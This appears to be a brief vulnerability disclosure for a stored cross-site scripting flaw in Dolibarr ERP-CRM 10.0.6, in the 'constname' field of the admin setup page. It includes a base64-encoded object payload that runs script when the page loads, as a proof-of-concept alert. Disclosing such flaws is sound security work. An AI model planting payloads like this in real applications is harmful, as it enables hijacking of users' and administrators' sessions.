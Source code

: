 ```yaml
---
title: 0day's
layout: page
permalink: /0days
---
```


# Dolibarr - Stored XSS [constname parameter]
# Version : 10.0.6
# Date: 17.01.2020
# Vendor : [https://www.dolibarr.org/](https://www.dolibarr.org/)
# CVE : N/A

Description: In this version of the Dolibarr ERP - CRM program is allows Stored XSS by placing a payload in the "constname" parameter field in other setup page.

# Url : http://192.168.1.133/htdocs/admin/const.php
# Payload : \<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+>\</object>
